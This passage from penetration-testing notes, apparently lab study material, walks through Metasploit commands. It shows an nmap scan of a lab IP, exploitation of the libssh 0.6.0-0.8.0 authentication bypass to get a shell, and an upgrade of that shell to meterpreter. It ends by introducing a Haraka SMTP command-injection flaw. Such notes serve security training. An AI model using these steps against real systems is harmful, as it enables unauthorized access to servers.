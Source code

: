 Upgrade shell to meterpreter.

```bash
msf6> search shell_to_meterpreter
msf6> use shell/multi/manager/shell_to_meterpreter
msf6> set lhost eth1
msf6> run

meterpreter> sysinfo
```

### Linux : SSH

* SSH (Secure Shell) is a remote administration protocol that offers encryption and is the successor to Telnet.
* It is typically used for remote access to servers and systems.
* SSH uses TCP port 22 by default, however, like other services, it can be configured to use any other open TCP port.
* libssh is a multiplatform C library implementing the SSHv2 protocol on client and server side.
* **libssh V0.6.0-0.8.0** is vulnerable to an authentication bypass vulnerability in the libssh server code that can be exploited to execute commands on the target server.

```bash
kali@kali> service postgresql start && msfconsole
msf6> workspace -a ssh
msf6> db_nmap -sS -sV -O 192.105.175.3

msf6> use auxiliary/scanner/ssh/libssh_auth_bypass
msf6> set spawn_pty true
msf6> run
msf6> sessions 1

# Ctrl+Z
```

Upgrade to meterpreter.

```bash
msf6> use post/multi/manage/shell_to_meterpreter
msf6> set session 1
msf6> set lhost eth1
msf6> run

meterpreter> sysinfo
```

### Linux : SMTP

* SMTP (Simple Mail Transfer Protocol) is a communication protocol that is used for the transmission of email.
* SMTP uses TCP port 25 by default. It can also be configured to run on TCP port 465 and 587.
* Haraka is an open source high performance SMTP server developed in Node.js.
* The Haraka SMTP server comes with a plugin for processing attachments. **Haraka versions prior to V2.8.9** are vulnerable to command injection.

